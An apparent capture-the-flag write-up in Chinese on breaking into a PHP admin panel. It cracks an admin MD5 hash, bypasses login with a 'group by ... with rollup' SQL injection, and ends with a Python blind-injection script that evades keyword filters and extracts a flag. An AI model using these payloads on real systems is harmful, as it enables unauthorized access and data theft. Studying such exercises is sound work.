






install.sql

```INSERT INTO `fish_admin` VALUES (1, 'admin', 'bfb912d6febd13fc8ae29b45551e5011', '114514', '1919810', 1);```

对```bfb912d6febd13fc8ae29b45551e5011```进行md5解密 得到管理员密码 xuxuxu



给没登进去后台的同学看看后台长什么样





注入点在/admin/daochu.php

但是首先要以```bmth```的身份登录

payload:

user:

```bmth'/**/group/**/by/**/password/**/with/**/rollup/**/limit/**/1/**/offset/**/1#```

pass:不传

使用```group by password with rollup```能产生一条为null的记录



然后使用limit可以选中password结果为null的那条记录 这里过滤了``,``  可以使用limit x offset y(等同于limit x,y)

 

然后就是常规的盲注

将select concat替换为空 双写绕一下就行

exp(注意设置登录的cookie，因为会先判断有无处于登录状态):

```python
import requests

url = 'http://42.192.42.48:8079/admin/daochu.php?id='
#登录的cookie
headers = {
        "cookie": "PHPSESSID=blpq9rbidrie21n59h9dccq0l6"
    }
data = {
    "user":"bmth'/**/group/**/by/**/password/**/with/**/rollup/**/limit/**/1/**/offset/**/1#",
}
result = ''
for x in range(1, 100):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        #获取当前数据库
        #payload = "0')||ascii(substr(database(),{},1))>{}%23" .format(x, mid)
        #获取所有数据库
        #payload = "0')||ascii(substr((seleselectct/**/group_conconcatcat(schema_name)/**/from/**/information_schema.schemata),{},1))>{}%23" .format(x, mid)
        #获取flagggg_1s_here数据库所有表
        #payload = "0')||ascii(substr((selselectect/**/group_concconcatat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='flagggg_1s_here'),{},1))>{}%23" .format(x, mid)
        #获取flagggg_1s_here数据库所有列
        #payload = "0')||ascii(substr((selselectect/**/group_concconcatat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema='flagggg_1s_here'/**/and/**/table_name='flag'),{},1))>{}%23" .format(x, mid)
        #获取flag
        payload = "0')||ascii(substr((selselectect/**/flag/**/from/**/flagggg_1s_here.flag),{},1))>{}%23" .format(x, mid)
        response = requests.post(url=url+payload, data=data,headers=headers)
        if b'test11' in response.content:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    result += chr(int(mid))
    print(result)

```

flag在```flaggg_1s_here``` 数据库的flag表的flag字段中



